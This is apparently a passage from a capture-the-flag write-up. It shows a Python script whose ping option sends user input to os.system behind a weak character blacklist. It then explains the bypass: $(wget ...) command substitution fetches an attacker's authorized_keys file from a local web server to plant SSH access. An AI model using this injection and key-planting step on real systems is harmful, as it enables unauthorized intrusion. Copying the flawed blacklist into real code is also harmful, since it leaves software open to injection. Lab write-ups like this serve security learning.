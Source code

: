     def to_dict(name):
        month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
        return month_dict[name]

    def get_max_level(lines):
        level=0
        for j in lines:
            if 'Level' in j:
                if int(j.split(' ')[4]) > int(level):
                    level = j.split(' ')[4]
                    req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
        return level, req

    def exec_ping():
        forbidden = ['&', ';', '-', '`', '||', '|']
        command = input('Enter an IP: ')
        for i in forbidden:
            if i in command:
                print('Got you')
                exit()
        os.system('ping ' + command)

    if __name__ == '__main__':
        show_header()
        if len(sys.argv) != 2:
            show_help()
            exit()
        if sys.argv[1] == '-h' or sys.argv[1] == '--help':
            show_help()
            exit()
        elif sys.argv[1] == '-s':
            show_statistics()
            exit()
        elif sys.argv[1] == '-l':
            list_ip()
            exit()
        elif sys.argv[1] == '-p':
            exec_ping()
            exit()
        else:
            show_help()
            exit()

We notice the `exec_ping` function calling `os.system()`. As there is forbidden
character we cannot simply execute a second command (with a `;` or a `&&`).
Nevertheless we can try to ping the result of a command with the following
`$(<command>)`.
We mount a python web server with our ssh public key renamed `authorized\_keys` and
download it from the box:

    :::text
    Enter an IP: $(wget 10.10.15.31:8080/authorized_keys)
